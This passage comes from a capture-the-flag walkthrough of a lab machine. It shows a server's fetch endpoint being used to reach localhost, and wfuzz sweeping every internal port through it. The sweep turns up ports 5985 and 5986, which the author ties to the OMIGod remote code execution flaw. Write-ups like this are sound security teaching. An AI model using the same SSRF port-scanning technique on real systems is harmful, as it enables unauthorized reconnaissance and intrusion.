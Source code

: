 ```

oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://127.0.0.1:81
{"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"127.0.0.1:81","note":"127.0.0.1"}

```

A good reminder to try both of them just in case when fuzzing things. I’ll look at why in [Beyond Root](#code-review).

I’ll try fuzzing with localhost, using `--hs '"endpoint":"null"'` to hide results containing that string:

```

oxdf@parrot$ wfuzz -z range,1-65535 --hs '"endpoint":"null"' -u http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:FUZZ
Total requests: 65535

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000022:   200        0 L      1 W        117 Ch      "22"
000000080:   200        0 L      1 W        117 Ch      "80"
000005986:   200        0 L      1 W        119 Ch      "5986"
000008001:   200        0 L      1 W        119 Ch      "8001"
000005985:   200        0 L      1 W        119 Ch      "5985"
000038332:   200        0 L      1 W        120 Ch      "38332"
000046012:   200        0 L      1 W        120 Ch      "46012"

Total time: 636.1354
Processed Requests: 65535
Filtered Requests: 65528
Requests/sec.: 103.0205

```

Sometimes when I ran this brute I would get some stray 502 errors back from the server. These are not positive hits, and I could include `--hc 502` to clear those as well.

I knew about 22 and 80 already. The two high ports could be interesting, but I’m immediately interested in 5985 and 5986. These are typically the WinRM ports on Windows. On Linux, they happen to be used by Open Management Interface, or OMI, which is the software exploitable by [CVE-2021-38647](https://www.tenable.com/blog/cve-2021-38647-omigod-critical-flaw-leaves-azure-linux-vms-vulnerable-to-remote-code-execution), or OMIGod.

## Identify SSRF
